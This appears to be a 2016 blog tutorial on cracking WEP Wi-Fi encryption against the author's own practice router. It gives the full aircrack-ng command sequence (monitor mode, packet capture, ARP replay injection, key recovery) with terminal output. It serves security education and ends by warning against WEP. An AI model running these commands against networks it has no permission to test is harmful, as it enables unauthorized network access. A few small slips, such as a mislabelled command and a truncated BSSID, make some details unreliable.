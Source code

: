 ```yaml
---
layout:     post
title:      "Wireless Security"
subtitle:   "WEP Hacking"
date:       2016-09-25 2:00:00
author:     "W3ndige"
header-img: "img/wireless-security-wep-header.jpg"
---
```


<h1>Introduction</h1>

<p>Wired Equivalent Privacy (WEP) was introduced in 1999 as a part of 802.11 standard. It's puprose was to assure the privacy of the wireless network in a way near to wired networks. It's using RC4 cipher (with different key size: 64 and 128 bits) and CRC-32 checksum to mantain integrity. In addition WEP is using a short, 24 bit initialization vector (IV), which is added to the key provided by user, creating 'unique' for each packet RC4 key. But because the IV is so short, and it's used with the same key, WEP is now considered outdated, easy to crack and insecure.  </p>

![wep-crypto](/img/wireless-security-wep/wep-crypto.png){:class="img-responsive"}


<h1>Step by step attack</h1>

<p>Firstly we need to setup an old router, with WEP security option enabled, which will be our practice target. Also remember to have some other device connected to it wirelessly since we'll need to capture encrypted data between them. After that check whether or not your wireless card supports packet injection - if not, you have to get another one. I'm using TL-WN722N which is great and cheap option. Now, if you have everything up and running - let's move to Kali. </p>

<p>Firstly let's check if your adapter is seen by Kali - you can do this by typing <b>airmon-ng</b> command. </p>

{% highlight bash %}
root@kali:~# airmon-ng

PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n
{% endhighlight %}

<p>For me it shows two cards - built in and USB one which is <b>wlan1</b></p>

<p>Now type <b>airmon-ng start [interface]</b> to set your USB adapter into monitor mode. If you encounter any problem try using <b>airmon-ng check kill</b> which will kill any processes using this adapter. After that I checked what name was assigned to the adapter - for me it was <b>wlan1mon</b> but yours can be different. </p>
{% highlight bash %}
root@kali:~# airmon-ng start wlan1


PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n

		(mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
		(mac80211 station mode vif disabled for [phy1]wlan1)

root@kali:~# ifconfig
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 0  (Local Loopback)
        RX packets 2200  bytes 150212 (146.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2200  bytes 150212 (146.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan1mon: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec F4-F2-6D-1A-99-ED-00-00-00-00-00-00-00-00-00-00  txqueuelen 1000
{% endhighlight %}

<p>Next step is to find the router - and get it's BSSID, channel (CH) and ESSID. You can do this by running command <b>airodump-ng [interface]</b>. This will show list of routers in range, information we need and some additional data. </p>

{% highlight bash %}
root@kali:~# airodump-ng wlan1mon
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 18:21:95:90:46:45  -86        2        0    0   1  54e. WPA2 CCMP   PSK  AndroidAP                                                                  
 54:B8:0A:10:DF:0E  -42       34        0    0   1  54e  WEP  WEP         pentest_wep                                                                
 D2:AE:EC:CE:DB:3B  -76       10        0    0   1  54e  WPA2 CCMP   PSK  DIRECT-mi pass-PHILIPS TV                                                  


 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                            

 00:27:22:2A:9C:0E  00:27:22:06:83:C3  -83    0 - 0     50       49                                                                                   
 C4:27:95:75:3E:45  10:30:47:E3:43:F5  -67    0 -11e     0        2  
{% endhighlight %}


<p>Here it is, we've got all information to start the attack. My target is <b>pentest_wep</b> with BSSID:<b>54:B8:0A:10:DF:0E</b> on channel <b>1</b>. Copy the essential information and open another terminal window (CTR + ALT + T). Now we're going to capture encrypted packets sent between the router and client device. We can do this with airodump-ng command. </p>

{% highlight bash %}
root@kali:~# airodump-ng -w pentest_wep -c 1 --bssid 54:B8:0A:10:DF:0 wlan1mon
{% endhighlight %}

<p>Explanation: <b>-w</b> will save the packets to the file called pentest_wep, <b>-c</b> is a channel that the target is using, and <b>--bssid</b> is to specify which router we're going to attack. Last thing is to choose the USB adapter running monitor mode.</p>

<p>That's what we're going to be shown after running this command. </p>

{% highlight bash %}
CH  1 ][ Elapsed: 32 s ][ 20016-09-25 10:16                                         

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                    

54:B8:0A:10:DF:0E  218 100      312     1927  223   1  54 . WEP  WEP         pentest_wep              

BSSID              STATION            PWR   Rate   Lost  Packets  Probe                               

00:A0:37:C3:D1:CB  06:19:E0:88:6A:4C  170   0-24   1005       16    
{% endhighlight %}

<p>As you can see we've got a few more information - number of beacons, data sent, packets, and data per second. These numbers will start at 0 and grow as the traffic is passed between the router and client device. Then this traffic is saved into the file, specified in the command argument, which we're going to use later in order to crack the password. But to make it work you will need at least 20,000 IV's, sometimes even more. I recommend you to 'harvest' around 100,000 as it will undoubtedly work. At this point you can wait until you get desired number of IV's. But what if the target isn't using internet at the time? What if he/she's sleeping? Yup, there's solution to this ;)</p>


<p>Open up another terminal window (remember not to close the one running airodump-ng) and type in this command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -1 0 -a 54:B8:0A:10:DF:0E wlan1mon
No source MAC (-h) specified. Using the device MAC (F4:F2:6D:1A:99:ED)
08:05:38  Waiting for beacon frame (BSSID: 54:B8:0A:10:DF:0E) on channel 1

08:05:38  Sending Authentication Request (Open System) [ACK]
08:05:38  Authentication successful
08:05:38  Sending Association Request [ACK]
08:05:38  Association successful :-) (AID: 1)
{% endhighlight %}

<p>After that run another command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -3 -b 54:B8:0A:10:DF:0E wlan1mon
{% endhighlight %}

<p>Aireplay-ng works by sending ARP request packets so that data and beacons should start growing quickly. This works even if no one is connected to the internet. </p>


<p>Now after we've already captured huge amount of packets close all the processes that were running, then type <b>ls</b> to see if the .cap file was saved. Then we can type <b>aircrack-ng [filename.cap]</b>. This will start the process of cracking the password. Attack will be restarted between every 5000 IV's. </p>

{% highlight bash %}
root@kali:~# aircrack-ng pentest_wep-01.cap
Opening pentest_wep-01.cap
Read 1894984 packets.

   #  BSSID              ESSID                     Encryption

   1  54:B8:0A:10:DF:0E  pentest_wep               WEP (9651 IVs)

Choosing first network as target.

Opening pentest_wep-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 9651 ivs.


                                 Aircrack-ng 1.2 rc3


                 [00:32:05] Tested 1972 keys (got 24276 IVs)

   KB    depth   byte(vote)
    0    4/  8   42(30720) 30(29696) B0(29696) 68(29184) 0E(28160)
    1    0/  1   31(34304) 0A(30720) 0F(29952) 35(29952) E9(29952)
    2    2/  5   0F(29696) A1(29440) CA(29440) CB(28928) F7(28928)
    3    2/  6   68(30720) 15(30464) 89(29696) E1(29696) 5F(29184)
    4    8/  9   92(29696) 9C(28928) B5(28928) 64(28672) 8F(28672)

                     KEY FOUND! [ 42:31:57:68:92 ]
	Decrypted correctly: 100%
{% endhighlight %}

<p>And we've got the key! Some versions of aircrack may show you also ASCII version of the key but both can be used to login into the wireless network. Notice that you can run aircrack at the same time as running airodump - that way it tries to crack the key every time you gather new 5000 IV's. </p>

<p>Notice how easy it was to gain access to the network protected with WEP? That's why you should never protect your network with this standard. </p>

<p>As always thanks for reading, keep tuned for the next part about more advanced algorithms like WPA or WPA2. I also really recommend trying it out by yourself as it's the best way to understand how it works and learning by practicing is the best way to gain knowledge. </p>

<p>~ Stay safe! </p>
